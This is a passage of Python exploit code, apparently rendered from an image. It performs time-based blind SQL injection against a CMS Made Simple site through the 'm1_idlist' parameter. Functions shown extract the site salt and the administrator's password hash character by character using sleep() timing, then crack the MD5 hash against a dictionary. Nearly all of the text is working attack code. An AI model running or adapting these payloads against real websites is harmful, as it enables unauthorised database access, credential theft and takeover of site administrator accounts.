 ```sh
        if hashlib.md5((salt + line).encode('utf-8')).hexdigest() == password:
            output += "\n[+] Password cracked: " + line
            break
    dict.close()

def beautify_print_try(value):
    global output
    print("\033c")
    cprint(output,'green', attrs=['bold'])
    cprint('[*] Try: ' + value, 'red', attrs=['bold'])

def beautify_print():
    global output
    print("\033c")
    cprint(output,'green', attrs=['bold'])

def dump_salt():
    global flag
    global salt
    global output
    ord_salt = ""
    ord_salt_temp = ""
    while flag:
        flag = False
        for i in range(0, len(dictionary)):
            temp_salt = salt + dictionary[i]
            ord_salt_temp = ord_salt + hex(ord(dictionary[i]))[2:]
            beautify_print_try(temp_salt)
            payload = "a,b,1,5))+and+(select+sleep(" + str(TIME) + ")+from+cms_siteprefs+where+sitepref_value+like+0x" + ord_salt_temp + "25+and+sitepref_name+like+0x736974656d61736b)+--+"
            url = url_vuln + "&m1_idlist=" + payload
            start_time = time.time()
            r = session.get(url)
            elapsed_time = time.time() - start_time
            
            if elapsed_time >= TIME:
                flag = True
                break
        if flag:
            salt = temp_salt
            ord_salt = ord_salt_temp
    flag = True
    output += '\n[+] Salt for password found: ' + salt

def dump_password():
    global flag
    global password
    global output
    ord_password = ""
    ord_password_temp = ""
    while flag:
        flag = False
        for i in range(0, len(dictionary)):
            temp_password = password + dictionary[i]
            ord_password_temp = ord_password + hex(ord(dictionary[i]))[2:]
            beautify_print_try(temp_password)
            payload = "a,b,1,5))+and+(select+sleep(" + str(TIME) + ")+from+cms_users"
            payload += "+where+password+like+0x" + ord_password_temp + "25+and+user_id+like+0x31)+--+"
            url = url_vuln + "&m1_idlist=" + payload
            start_time = time.time()
            r = session.get(url)
            elapsed_time = time.time() - start_time
```